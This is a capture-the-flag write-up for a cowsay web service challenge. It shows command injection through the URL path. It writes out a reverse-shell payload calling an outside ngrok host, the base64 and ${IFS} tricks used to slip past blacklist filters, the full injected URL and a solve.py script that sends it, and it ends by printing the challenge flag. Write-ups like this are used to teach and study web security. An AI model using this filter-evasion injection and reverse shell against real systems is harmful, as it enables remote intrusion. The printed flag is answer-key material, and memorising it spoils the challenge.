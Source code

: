 # caas renewed

```
moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo etc/cowsay/falg.txt

Author: ravinesPlains

Link: http://caas.web.nitectf.live

File: caasRenewed.zip
```

## POC

Upon inspecting the index page, I discovered a link format for generating cowsay messages: [http://caas.web.nitectf.live/cowsay/{message}](http://caas.web.nitectf.live/cowsay/Val0id)

![1](images/1.png)

I successfully injected the command `pwd` and received the expected output.

![2](images/2.png)

But I encountered restrictions through both a whitelist and a blacklist of commands.

[blacklist.txt](./blacklist.txt)<br>
[whitelisted.txt](./whitelisted.txt)

To overcome this limitation, I crafted a payload to achieve a reverse shell. I used `nc` and `ngrok` for listening on my specified port.

![3](images/3.png)

The payload was a bash command.

```bash
bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/11544 0>&1
```

I encoded the payload in base64, with special attention to avoiding blacklisted and whitelisted commands.

```bash
echo 'bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/11544 0>&1' | base64
```

```bash
b="b"
```

```bash
${IFS}
```

This was the final payload.

```bash
Val0id;b="b";echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg==|${b}ase64${IFS}-d|${b}ash
```

I sent the payload to the url.

[`http://caas.web.nitectf.live/cowsay/Val0id;b="b";echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg==|${b}ase64${IFS}-d|${b}ash`](http://caas.web.nitectf.live/cowsay/Val0id;b="b";echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg==|${b}ase64${IFS}-d|${b}ash)

And I got the reverse shell.

![4](images/4.png)

Since I already knew where was the flag located from the description, I just need to printed out with this command.

```bash
cat /etc/cowsay/falg.txt
```

![5](images/5.png)

The flas was successfully revelead.

## solve.py

```python
import requests

url = "http://caas.web.nitectf.live/cowsay"

say = 'Val0id;b="b";echo${IFS}YmFzaCAtaSA%2BJiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg%3D%3D|${b}ase64${IFS}-d|${b}ash'

requests.get(f"{url}/{say}")
```

## Flag

`nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}`
